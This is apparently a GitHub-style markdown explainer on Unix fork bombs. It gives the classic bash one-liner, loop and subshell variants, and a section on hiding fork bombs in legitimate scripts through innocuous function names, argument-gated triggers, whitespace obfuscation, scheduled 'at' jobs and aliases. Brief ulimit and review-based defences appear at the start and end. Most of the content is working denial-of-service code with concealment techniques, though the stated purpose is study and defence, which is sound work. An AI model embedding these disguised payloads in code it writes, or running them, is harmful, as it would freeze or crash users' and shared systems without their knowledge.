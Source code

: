 ## 💣 Fork Bombs

A **fork bomb** is a type of denial-of-service (DoS) attack against a computer system, 
designed to quickly **exhaust system resources** (especially process table entries and 
CPU cycles) by **repeatedly replicating itself**.

## 🔁 How it Works:

A fork bomb exploits the `fork()` system call, which is used to create new processes. 
A fork bomb creates a process that **continually spawns child processes**, each of which 
also spawns more processes, and so on — leading to **exponential growth**.

Eventually, the system is overwhelmed by thousands (or millions) of processes, making 
it unusable until it's rebooted.

## 💥 Example in Bash:
This seemingly cryptic line is one of the most well-known fork bombs in Unix-like systems.
```bash
:(){ :|:& };:
```

## Breakdown:

`:()` defines a function named `:`.

`{ :|:& };` tells the function to call itself (`:`), pipe its output into another call to itself (`:`), and run the result in the background (`&`).

The final `:` invokes the function, starting the explosion.

## 🚫 Why It’s Dangerous:

It can **crash** or **freeze** a system, especially if the user has high privileges.

On multi-user systems, it can affect everyone.

It’s often used as a prank or malicious payload, and in many environments, running it can get you banned or disciplined.

## 🔒 Prevention:
Limit the number of processes a user can spawn using `ulimit` (Linux):
```bash
ulimit -u 100
```
Use security policies or containers to isolate and restrict resource access.

> ⚠️  **Note:** Fork bombs are **dangerous**. They should only be studied in secure, isolated environments (e.g., virtual machines). Never run them on production or shared systems.

---

## 🧨 Other Fork Bomb Variants

### 1. Using `while` Loops

```bash
while true; do
  bash $0 &
done
```
This tells the current script to run itself in the background endlessly. It’s straightforward and dangerous.
---

### 2. Using `&` in a Loop with `()`:

```bash
( : & ) &
```
Put this inside a loop, or create multiple copies of it, and you get exponential forking behavior:
```bash
while true; do ( : & ) & done
```
### 3. Recursion Without a Function
```bash
bash -c 'bash -c "bash -c ..."' &
```
This can be stacked a few times and backgrounded to mimic a fork bomb with layers of process spawning.
---

## 🕵️  Sneaky Injections into Legit Bash Scripts
Here’s where things get more insidious. A fork bomb could be **obfuscated** or **embedded** in a way that makes it less obvious:

### ✅ Disguised Function Name
```bash
load_env(){ load_env|load_env & }; load_env
```
Looks like a regular `load_env` setup function — but it's a fork bomb.
---

### ✅ Hidden in Logic
```bash
initialize() {
  if [ "$1" == "--start" ]; then
    :(){ :|:& };:
  fi
}
```
Called only with a specific argument, making it seem safe unless someone passes ``--start``.
---

## ✅ Packed with Whitespace and Noise
```bash
: ( ) {     : |   : & } ; :
```
Or even:
```bash
function oOoOoO(){ oOoOoO|oOoOoO& }; oOoOoO
```
Unusual formatting or naming makes it hard to recognize.
---

## ✅ Nested Inside Subshells
```bash
(
  fork_loop() { fork_loop | fork_loop & }; fork_loop
) &
```
Running inside a subshell can make the behavior seem isolated — until it's not.
---

## ✅ Buried in a Scheduled Task
```bash
echo ":(){ :|:& };:" | at now + 1 minute
```
The fork bomb only triggers later, making it harder to trace.
---

## ✅ Hidden via Aliases or Script Inclusions
```bash
alias update=':(){ :|:& };:'
```
Or inside a common sourced script (like `.bashrc`, `.bash_profile`, etc.).
---

## 🧯 How to Detect / Defend

* Use `ulimit` to restrict how many processes users can run.

* **Review scripts carefully** for unusual function definitions or excessive recursion.

* **Monitor for sudden process spikes** using tools like `htop` or `top`.

* **Check** `.bashrc`, `.profile`, **and cron jobs** for anything unexpected.
